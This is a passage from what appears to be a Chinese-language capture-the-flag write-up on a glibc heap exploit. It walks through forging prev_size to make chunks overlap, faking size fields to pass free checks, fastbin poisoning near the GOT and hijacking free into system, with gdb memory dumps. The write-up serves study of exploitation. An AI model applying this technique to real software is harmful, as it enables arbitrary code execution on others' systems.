 ```
0x603140:	0x0000000000000000	0x0000000000000000
0x603150:	0x0000000000000060	0x0000000000000001 <- unsortbin
0x603160:	0x0000000000000110	0x0000000000000100
0x603170:	0x3333333333333333	0x0000003333333333 <- chunk3
                        ...
0x603260:	0x0000000000000000	0x0000000000020da1
```
由於chunk3的prev_size是0x110所以前一個chunk會是原本的chunk2

而剛剛我們已經先刪除size 0x90(chunk2)在刪除size 0xf0(chunk3)

而chunk3會用prev_size找前一個chunk(chunk2)發現他已經是free的而做unlink將整塊合併

但是實際上chunk4還沒有被free掉，所以我們成功騙過glibc造成overlap chunk

接下來有個問題，因為要控制到chunk4所以要先將她刪除再新增

所以必須要先malloc一塊0x100的secret並且覆蓋掉chunk4(prev_size跟size要還原)

然後把unsortbin殘留的prev_size=0x60(即chunk4的size，因為chunk4在free時會來這塊檢查)，

size=0x11，由於glibc在free會檢查下一塊的size是否>0x10如果保持原本的0x1將會raise

覆蓋掉unsortbin的size成0x11之後把剛剛新增的size 0x100刪除掉

再把chunk4刪除，此時就可以成功刪除(往下一個chunk檢查size>0x10)

由於刪除chunk4了所以這上面會有一個0x60大小的fastbin

之後再新增一個size 0x100的secret，並把原本的chunk4還原回去，

別忘了還有chunk4的下一個chunk的size也要寫成0x10
```
0x6030f0:   0x0000000000000000	0x0000000000000060 
0x603100:   0x6161616161616161  0x0000000000000000 <- 原本的chunk4
gdb-peda$ heapinfo 
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x6030f0 --> 0x6161616161616161 (invaild memory)
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x603160 (size : 0x20ea0) 
       last_remainder: 0x6030f0 (size : 0x60) 
            unsortbin: 0x0
```
因為chunk4上面是size 0x60的fastbin然後我們新增的secret又可以覆蓋過去所以我們就控制到fastbin的值

當之後第二次malloc(0x50)的時候就會分配到0x6161616161616161當然這是一個錯誤的位址，我們必須找一個合法的位址

之所以選用0x50是因為got table上就有一個0x60可以當size來通過檢查
```
gdb-peda$ x/2gx 0x00602000-0x6
0x601ffa:	0x1e28000000000000	0xe148000000000060
```
而且他後面有free，可以直接修改free成system做got hijack!!
```
gdb-peda$ x/20gx 0x00602000
0x602000:	0x0000000000601e28	0x00007ffff7ffe148
0x602010:	0x00007ffff7df2070	0x00007ffff7a9c370 <- free.got
```
